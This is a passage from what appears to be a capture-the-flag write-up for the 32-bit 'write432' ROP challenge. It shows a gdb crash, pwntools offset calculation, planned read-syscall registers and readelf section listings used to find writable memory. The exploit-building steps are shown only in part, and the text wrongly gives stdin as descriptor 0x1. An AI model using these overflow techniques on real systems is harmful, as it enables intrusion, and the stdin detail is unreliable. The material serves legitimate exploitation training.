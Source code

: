 ```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x6161616c in ?? ()
gdb-peda$ 
```
After that I went back to pwntools to get the length of the padding that I needed.
```python
>>> fit({'laaa':'B'})
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaaB'
>>> len(_)-1
44
>>>
```
pwntools allows you to use both hexadecimal strings as well as ascii strings to get a padding. `laaa` is the `0x6161616c` in hex.
Since I have to write to memory, I decided to look up what I needed to have for the `read` syscall. The `read` syscall allows me to write to memory, and that's what I need to do.
So I need to have these registers with the values:
```
eax: 0x03
ebx: stdin (0x1)
ecx: address to write to
edx: length of my input
```
Firstly, I check what locations I could write to.
```
$ readelf -S write432
There are 31 section headers, starting at offset 0x196c:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000030 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481dc 0001dc 0000d0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          080482ac 0002ac 000081 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          0804832e 00032e 00001a 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048348 000348 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             08048368 000368 000020 08   A  5   0  4
  [10] .rel.plt          REL             08048388 000388 000038 08  AI  5  24  4
  [11] .init             PROGBITS        080483c0 0003c0 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483f0 0003f0 000080 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048470 000470 000008 00  AX  0   0  8
  [14] .text             PROGBITS        08048480 000480 000262 00  AX  0   0 16
  [15] .fini             PROGBITS        080486e4 0006e4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080486f8 0006f8 000064 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        0804875c 00075c 00003c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048798 000798 00010c 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        0804a000 001000 000028 04  WA  0   0  4
  [25] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
  [26] .bss              NOBITS          0804a040 001030 00002c 00  WA  0   0 32
  [27] .comment          PROGBITS        00000000 001030 000034 01  MS  0   0  1
  [28] .shstrtab         STRTAB          00000000 001861 00010a 00      0   0  1
  [29] .symtab           SYMTAB          00000000 001064 000510 10     30  50  4
  [30] .strtab           STRTAB          00000000 001574 0002ed 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
```